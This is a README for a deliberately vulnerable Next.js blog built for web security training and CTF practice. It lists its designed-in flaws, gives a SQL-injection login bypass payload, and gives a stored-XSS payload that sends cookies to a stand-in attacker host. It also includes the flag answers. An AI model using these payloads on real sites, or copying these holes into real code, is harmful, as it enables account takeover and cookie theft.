# SecureBlog — Intentionally Vulnerable Web Application

 **For educational purposes only. Do not deploy to production or expose to the public internet.**

SecureBlog is a deliberately vulnerable full-stack blog application built for hands-on web security training. Every vulnerability was intentionally designed and embedded — then tested and confirmed through real penetration testing techniques.

Built with **Next.js**, **Prisma**, and **SQLite**.


## Installation


git clone https://github.com/Abundanceemma38/SecureBlog.git
cd SecureBlog
npm install
npx prisma generate
npx prisma migrate dev --name init
npx prisma db seed
npm run dev


Open [http://localhost:3000](http://localhost:3000) in your browser.

---
## The Application

SecureBlog is a blog platform where users can register, log in, publish posts, write comments, and manage a personal dashboard. On the surface it looks like a normal app — underneath, it is full of real-world vulnerabilities waiting to be found.






## Vulnerabilities

### 1. SQL Injection + Authentication Bypass

The login form is vulnerable to SQL injection. The backend constructs a raw query string without sanitization, allowing an attacker to bypass authentication entirely.

**Payload used:**
username: ' OR 1=1--
password: anything

This grants access to the admin account without knowing the password. You can also target specific users:

username: ' OR username='bob'--






---

### 2. Weak Session Management + Cookie Exposure

After a successful login or bypass, session cookies are set with no `httpOnly`, no `secure`, and no `sameSite` flags. The cookies (`session_user_id`, `session_username`) are readable by JavaScript and visible in plain text in Burp Suite.


**Cookies exposed:**
- `session_user_id` — numeric user ID
- `session_username` — username in plaintext
- `debug_flag` — only set for admin: `FLAG{xss_cookie_snatcher}`

---

### 3. IDOR — Insecure Direct Object Reference

The API does not check whether a requesting user owns a post. By accessing `/api/posts/:id` directly, any user — authenticated or not — can read draft posts that were never meant to be public.

After gaining admin access via SQLi, browsing to the admin dashboard reveals draft posts including:

> `FLAG{draft_post_leak}`



### 4. Stored XSS — Cross-Site Scripting via Comments

The comment section explicitly hints that **HTML is supported**. There is no input sanitization on comment content. Any script or HTML tag submitted is stored in the database and executed when any user views that post.

**Payload 1 — Script tag:**
```html
<script>fetch("http://attacker:9000?cookie="+document.cookie)</script>
```

**Payload 2 — Image tag (works even where script tags are filtered):**
```html

```

When the admin visits the post, their cookies — including the `debug_flag` — are sent to the attacker's listener.





---

### 5. Plaintext Password Storage

Passwords are stored in the database without hashing. Anyone with database access can read all user credentials directly.

### 6. Anonymous Commenting

No authentication is required to post a comment. This widens the XSS attack surface to unauthenticated attackers.

### 7. Admin Privilege Escalation via SQLi

Because session cookies only store `session_user_id` and `session_username`, bypassing authentication with `' OR 1=1--` grants full admin-level access including the ability to read all drafts, view the debug flag cookie, and manage all posts.



---

## 🚩 Flags

| Flag | Location | How to find it |
|------|----------|----------------|
| `FLAG{login_bypass_master}` | Admin dashboard / DB note field | SQLi bypass → admin dashboard |
| `FLAG{draft_post_leak}` | Draft post content | IDOR → access draft post directly |
| `FLAG{xss_cookie_snatcher}` | Admin cookie | Stored XSS → steal admin cookies |

---

## 🛠 Tech Stack

| Layer | Technology |
|-------|------------|
| Frontend | Next.js 16, Tailwind CSS, shadcn/ui |
| Backend | Next.js API Routes |
| Database | SQLite via Prisma ORM |
| Auth | Cookie-based sessions (intentionally weak) |

---

## Vulnerability Summary

| # | Vulnerability | Severity |
|---|---------------|----------|
| 1 | SQL Injection (login bypass) | Critical |
| 2 | Authentication bypass | Critical |
| 3 | Stored XSS (comments) | High |
| 4 | Cookie theft | High |
| 5 | Weak session cookies (no httpOnly/secure) | High |
| 6 | IDOR (draft post exposure) | Medium |
| 7 | Plaintext password storage | High |
| 8 | Anonymous commenting (no auth required) | Low |

---

## 👤 Author

Built and tested by **[Abundance Emma](https://github.com/Abundanceemma38)**

> I didn't just copy and paste — I built this app from scratch, embedded every vulnerability intentionally, and then pentest tested it myself to confirm each one. This project represents both my development skills and my security mindset.


## ⚠️ Disclaimer

This application is intentionally insecure. It was built for cybersecurity education and CTF-style training only. Never deploy it to a public server or use it to handle real user data.

So, if you follow till this moment, you’re already a fan, try to read what’s in Jesus1oba draft, and what does the text say? And have you done that?
Also check if there are  any more vulnerability 
